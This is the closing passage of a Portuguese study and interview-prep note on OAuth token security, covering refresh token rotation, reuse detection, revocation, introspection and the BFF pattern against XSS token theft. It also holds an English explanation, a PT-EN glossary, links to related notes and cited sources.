> **Resposta forte:** "Porque localStorage é legível por qualquer JavaScript da página, então uma única vulnerabilidade de XSS — mesmo numa dependência de terceiros que a gente não escreveu — expiltra todos os tokens ativos, de todos os usuários da sessão. Com um BFF, o navegador nunca recebe um token, só um cookie HttpOnly de sessão; mesmo que um atacante consiga injetar JavaScript na página, ele não consegue ler o cookie. A complexidade extra é real — agora tem um componente de backend a mais para manter — mas ela move o problema de 'qualquer XSS rouba credenciais' para 'XSS continua sendo ruim, mas não consegue mais levar embora o token'. É a mesma lógica de reduzir superfície de ataque que aplicamos em qualquer outro lugar do sistema."

Essa resposta demonstra que o candidato entende o BFF não como modismo arquitetural, mas como resposta direta a uma classe de ataque documentada — o mesmo padrão de raciocínio "qual ameaça isso fecha" que atravessa toda a trilha de OAuth.

## How to explain it in English

> "Access tokens are short-lived on purpose — they're bearer tokens, so the only real defense against a leaked one is how fast it expires. Refresh tokens solve the UX problem, but under OAuth 2.1 public clients must rotate them: every use issues a brand-new refresh token and kills the old one, so if that old, already-dead token ever gets used again, that's the system's own signal that someone has a stolen copy — and the whole token family gets revoked, both the attacker and the legitimate user are logged out. Revocation and introspection solve two different problems: revocation is the client saying 'I'm done with this token,' introspection is the resource server asking 'is this token still good.' And for a JWT that's already been issued, neither one gives you instant revocation for free — that's why short TTLs plus a `jti` denylist exist. On the browser side, the real lesson is that localStorage is the worst place to keep a token, because any XSS anywhere in the page can read it; the pattern that won in 2026 is the BFF — the browser never sees a token at all, just an HttpOnly session cookie, which XSS simply can't read."

| PT | EN |
|----|----|
| Token portador | Bearer token |
| Rotação de refresh token | Refresh token rotation |
| Detecção de reuso | Reuse detection |
| Família de tokens | Token family |
| Endpoint de revogação | Revocation endpoint |
| Introspecção de token | Token introspection |
| Token opaco | Opaque token |
| Denylist / lista de bloqueio | Denylist / blocklist |
| Token amarrado ao remetente | Sender-constrained token |
| Padrão BFF (Backend for Frontend) | BFF (Backend for Frontend) pattern |
| Token vazado / roubado | Leaked / stolen token |
| Cookie HttpOnly | HttpOnly cookie |

## O que vem a seguir

Tudo até aqui assumiu um único authorization server e um único domínio de confiança. Mas a maioria das organizações reais precisa federar identidade através de fronteiras — um funcionário logando em dezenas de SaaS diferentes com uma única identidade corporativa, ou um parceiro de negócio acessando um sistema via um IdP que não é o seu. Isso é o domínio do SSO corporativo: SAML (que não morreu, apesar de mais antigo que o OIDC), federação entre provedores de identidade, e provisionamento automatizado de contas via SCIM.

- [[06 - SSO corporativo — SAML, federação e SCIM]] — por que SAML continua vivo em ambientes enterprise B2B, assertions IdP-initiated vs SP-initiated, e como o provisionamento de usuários se automatiza via SCIM 2.0
- [[03 - JWT e a família de tokens]] — a anatomia e validação do JWT que esta nota assumiu como conhecida; cobre `alg=none`, JWKS e rotação de chave
- [[02 - Sessões e cookies — auth stateful|Sessões e cookies — auth stateful]] — o modelo que o padrão BFF reintroduz no lado do navegador
- [[04 - Grants de máquina e fluxos especiais]] — DPoP e mTLS, os mecanismos de sender-constraining mencionados aqui de passagem
- [[13 - Refresh tokens e revogação de token]] (Java/Segurança) — implementação concreta de rotation e revogação com Spring Authorization Server

## Fontes

- **IETF Datatracker** — [*RFC 9700 — Best Current Practice for OAuth 2.0 Security*](https://datatracker.ietf.org/doc/html/rfc9700) — refresh token rotation obrigatória para public clients, reuse detection, sender-constraining de access tokens; acessado em 2026-07-11.
- **IETF Datatracker** — [*RFC 7009 — OAuth 2.0 Token Revocation*](https://datatracker.ietf.org/doc/html/rfc7009) — mecânica do revocation endpoint, revogação em cascata, limite com tokens auto-contidos; acessado em 2026-07-11.
- **IETF Datatracker** — [*RFC 7662 — OAuth 2.0 Token Introspection*](https://datatracker.ietf.org/doc/html/rfc7662) — protocolo de introspecção, metadados devolvidos, requisito de TLS; acessado em 2026-07-11.
- **IETF Datatracker** — [*draft-ietf-oauth-browser-based-apps (rev. 27, jul/2026) — OAuth 2.0 for Browser-Based Applications*](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-browser-based-apps) — as três arquiteturas (BFF, Token-Mediating Backend, Browser-based Client), recomendação do padrão BFF, seção sobre Service Workers como padrão desencorajado; acessado em 2026-07-11.
- **OWASP Cheat Sheet Series** — [*HTML5 Security Cheat Sheet*](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html) — por que localStorage/sessionStorage não devem guardar tokens, comparação com cookies HttpOnly; acessado em 2026-07-11.
- **Curity** — [*How Should You Serve Your Access Tokens: JWTs, Phantom, or Split?*](https://curity.io/blog/how-should-you-serve-your-access-tokens-jwts-phantom-or-split/) — trade-off opaco vs JWT no resource server, padrão híbrido; acessado em 2026-07-11.
- **Curity** — [*Protecting Single Page Apps with Token Handler Pattern*](https://curity.io/resources/learn/the-token-handler-pattern/) — origem do padrão BFF/token handler para SPAs; acessado em 2026-07-11.
- **Auth0** — [*Refresh Token Security: Detecting Hijacking and Misuse with Auth0*](https://auth0.com/blog/refresh-token-security-detecting-hijacking-and-misuse-with-auth0/) — mecânica de reuse detection na prática; acessado em 2026-07-11.
- **Auth0** — [*Configure Refresh Token Rotation*](https://dev.auth0.com/docs/secure/tokens/refresh-tokens/configure-refresh-token-rotation) — janela de tolerância (rotation overlap period) para evitar falso-positivo de reuse; acessado em 2026-07-11.
- **Okta Developer** — [*Refresh access tokens and rotate refresh tokens*](https://developer.okta.com/docs/guides/refresh-tokens/main/) — implementação de rotation e eventos de log de reuse detectado; acessado em 2026-07-11.
- **Scalekit** — [*OAuth 2.0 best practices to secure your APIs: RFC 9700*](https://www.scalekit.com/blog/oauth-2-0-best-practices-rfc9700) — resumo aplicado das exigências de RFC 9700 sobre rotation e revogação de família; acessado em 2026-07-11.
- **techinterview.org** — [*Token Revocation Service Low-Level Design: Blocklist, JTI Tracking, and Fast Invalidation*](https://www.techinterview.org/post/3233469926/lld-token-revocation/) — desenho de denylist de `jti` com TTL alinhado à expiração do token; acessado em 2026-07-11.
- **MojoAuth** — [*Token Introspection vs Local JWT Verification at Scale*](https://mojoauth.com/blog/token-introspection-vs-jwt-verification-at-scale) — trade-off de latência e cache de introspecção; acessado em 2026-07-11.

[^owasp-html5]: OWASP Cheat Sheet Series, *HTML5 Security Cheat Sheet* — XSS e acesso irrestrito a localStorage por qualquer script da origem.
[^rfc7009-selfcontained]: RFC 9700, seção sobre limites de revogação de tokens auto-contidos (JWT); RFC 7009 seção 3, nota de implementação.
[^rfc9700-access]: RFC 9700, seção 2.2.1 — recomendação de sender-constraining ou vida curta para access tokens.
[^obsidian-refresh]: Obsidian Security, *Refresh Token Security: Best Practices for OAuth Token Protection* — faixa prática de 5-30 minutos para access tokens.
[^rfc9700-refresh]: RFC 9700, seção 2.2.2 — refresh tokens de public clients DEVEM ser sender-constrained ou usar rotation (seção 4.14).
[^auth0-rotation]: Auth0, *Refresh Token Rotation* (docs) — mecânica de emissão de novo refresh token a cada uso.
[^okta-reuse]: Okta Developer, *Refresh access tokens and rotate refresh tokens* — detecção automática de reuse e eventos de log dedicados.
[^scalekit-family]: Scalekit, *OAuth 2.0 best practices to secure your APIs: RFC 9700* — revogação de família inteira de tokens em caso de reuse.
[^auth0-overlap]: Auth0, *Configure Refresh Token Rotation* — janela de tolerância (rotation overlap period) contra falso-positivo por concorrência de rede.
[^rfc7009]: RFC 7009, seção 2 — mecânica do endpoint de revogação, parâmetro `token_type_hint`.
[^rfc7009-cascade]: RFC 7009, seção 2.1 — revogar refresh token deveria invalidar todos os access tokens derivados da mesma concessão.
[^rfc7662]: RFC 7662, seção 2 — protocolo de introspecção, endpoint e requisição.
[^rfc7662-meta]: RFC 7662, seção 2.2 — metadados devolvidos pela introspecção (active, scope, client_id, exp).
[^curity-phantom]: Curity, *How Should You Serve Your Access Tokens: JWTs, Phantom, or Split?* — trade-off de latência/disponibilidade entre JWT local e introspecção remota; padrão híbrido access-JWT + refresh-opaco.
[^mojoauth-introspection]: MojoAuth, *Token Introspection vs Local JWT Verification at Scale* — cache de introspecção e o compromisso entre revogação instantânea e carga no AS.
[^owasp-html5-storage]: OWASP Cheat Sheet Series, *HTML5 Security Cheat Sheet* — recomendação explícita contra localStorage/sessionStorage para credenciais; cookies HttpOnly/Secure/SameSite como alternativa.
[^techinterview-jti]: techinterview.org, *Token Revocation Service Low-Level Design* — denylist de `jti` com TTL igual ao tempo restante de vida do token.
[^draft-bba]: draft-ietf-oauth-browser-based-apps (rev. 27) — as três arquiteturas descritas para aplicações browser-based.
[^draft-bba-recommend]: draft-ietf-oauth-browser-based-apps (rev. 27) — recomendação explícita do padrão BFF para aplicações sensíveis/de negócio.
[^draft-bba-sw]: draft-ietf-oauth-browser-based-apps (rev. 27), seção 7.4/8.2 — Service Workers e Web Workers classificados como padrão desencorajado, isolamento incompleto contra abuso via mensagens.
